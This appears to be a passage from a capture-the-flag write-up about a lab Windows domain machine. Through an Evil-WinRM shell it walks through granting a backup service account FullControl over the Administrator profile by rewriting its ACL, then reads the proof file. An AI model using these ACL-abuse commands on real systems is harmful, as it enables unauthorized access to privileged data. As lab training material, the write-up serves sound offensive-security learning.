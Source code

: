```batch
*Evil-WinRM* PS C:\Users> $user = "blackfield\svc_backup"
*Evil-WinRM* PS C:\Users> $folder = "c:\users\Administrator"
*Evil-WinRM* PS C:\Users> $aclperms = $user,"FullControl","ContainerInherit,ObjectInherit","None","Allow"
*Evil-WinRM* PS C:\Users> $aclrule = new-object System.Security.AccessControl.FileSystemAccessRule $aclperms
*Evil-WinRM* PS C:\Users> $acl=get-acl $folder
*Evil-WinRM* PS C:\Users> $acl.addAccessRule($aclrule)
*Evil-WinRM* PS C:\Users> set-acl -path $folder -aclobject $acl
*Evil-WinRM* PS C:\Users> get-acl $folder | fl
```

```text
Path   : Microsoft.PowerShell.Core\FileSystem::C:\users\Administrator
Owner  : NT AUTHORITY\SYSTEM
Group  : NT AUTHORITY\SYSTEM
Access : NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
         BLACKFIELD\Administrator Allow  FullControl
         BLACKFIELD\svc_backup Allow  FullControl
Audit  :
Sddl   : O:SYG:SYD:PAI(A;OICI;FA;;;SY)(A;OICI;FA;;;BA)(A;OICI;FA;;;LA)(A;OICI;FA;;;S-1-5-21-4194615774-2175524697-3563712290-1413)
```

It's now possible to read proof file :

```batch
*Evil-WinRM* PS C:\Users> cd Administrator
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
```

### Privilege Escalation : get a shell

#### Reconnaissance

Exploring the filesystem, there is a note file at root of C: drive :

```shell
*Evil-WinRM* PS C:\Users\svc_backup\Documents> more c:\notes.txt
```

Result:

```text
Mates,

After the domain compromise and computer forensic last week, auditors advised us to:
- change every passwords -- Done.
- change krbtgt password twice -- Done.
- disable auditor's account (audit2020) -- KO.
- use nominative domain admin accounts instead of this one -- KO.

We will probably have to backup & restore things later.
- Mike.

PS: Because the audit report is sensitive, I have encrypted it on the desktop (root.txt)
```
